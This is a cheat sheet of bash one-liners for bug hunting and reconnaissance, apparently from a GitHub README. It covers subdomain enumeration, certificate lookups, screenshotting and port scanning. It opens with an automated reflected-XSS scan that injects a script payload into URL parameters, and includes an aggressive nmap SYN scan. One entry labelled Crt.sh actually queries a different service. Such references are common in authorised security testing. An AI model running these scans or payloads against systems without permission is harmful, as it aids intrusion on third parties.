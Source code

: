 **XSS without gf**
```bash
waybackurls testphp.vulnweb.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```
**Extract endpoints from APK files**
```bash
apkurlgrep -a path/to/file.apk
```
**Get Subdomains from IPs**
```bash
python3 hosthunter.py <target-ips.txt> > vhosts.txt
```
**webscreenshot**
```bash
python webscreenshot.py -i list.txt -w 40
```
**Removes duplicate URLs and parameter combinations**
```bash
cat urls.txt |qsreplace -a
```
**Gather domains from content-security-policy**
```bash
curl -v -silent https://$domain --stderr - | awk '/^content-security-policy:/' | grep -Eo "[a-zA-Z0-9./?=_-]*" |  sed -e '/\./!d' -e '/[^A-Za-z0-9._-]/d' -e 's/^\.//' | sort -u
```
**Using dns.bufferover.run**
```bash
curl -s https://dns.bufferover.run/dns?q=.example.com |jq -r .FDNS_A[]|cut -d',' -f2|sort -u
```
**Using Crt.sh**
```bash
curl -s https://dns.bufferover.run/dns?q=.hackerone.com |jq -r .FDNS_A[]|cut -d',' -f2|sort -u
```
**Using Certspotter**
```bash
curl https://certspotter.com/api/v0/certs\?domain\=example.com | jq '.[].dns_names[]' | sed 's/\"//g' | sed 's/\*\.//g' | uniq
```
**Using Certspotter (With port scanning)**
```bash
curl https://certspotter.com/api/v0/certs\?domain\=example.com | jq '.[].dns_names[]' | sed 's/\"//g' | sed 's/\*\.//g' | uniq | dig +short -f - | uniq | nmap -T5 -Pn -sS -i - -p 80,443,21,22,8080,8081,8443 --open -n -oG -
```
**Sublist3r One Liner**

```bash
. <(cat domains | xargs -n1 -i{} python sublist3r.py -d {} -o {}.txt)
```
**Grab Titles of webpages** 
```bash
for i in $(cat Webservers.txt ); do echo "$i | $(curl --connect-timeout 0.5 $i -so - | grep -iPo '(?<=<title>)(.*)(?=</title>)')"; done 
```
**Enumerate hosts from SSL Certificate**
```bash
echo | openssl s_client -connect https://targetdomain.com:443 | openssl x509 -noout -text | grep DNS
```
**Google DNS via HTTPS**
```bash
echo "targetdomain.com" | xargs -I domain proxychains curl -s "https://dns.google.com/resolve?name=domain&type=A" | jq .
```
**CommonCrawl to find endpoints on a site**
```bash
echo "targetdomain.com" | xargs -I domain curl -s "http://index.commoncrawl.org/CC-MAIN-2018-22-index?url=*.domain&output=json" | jq -r .url | sort -u
```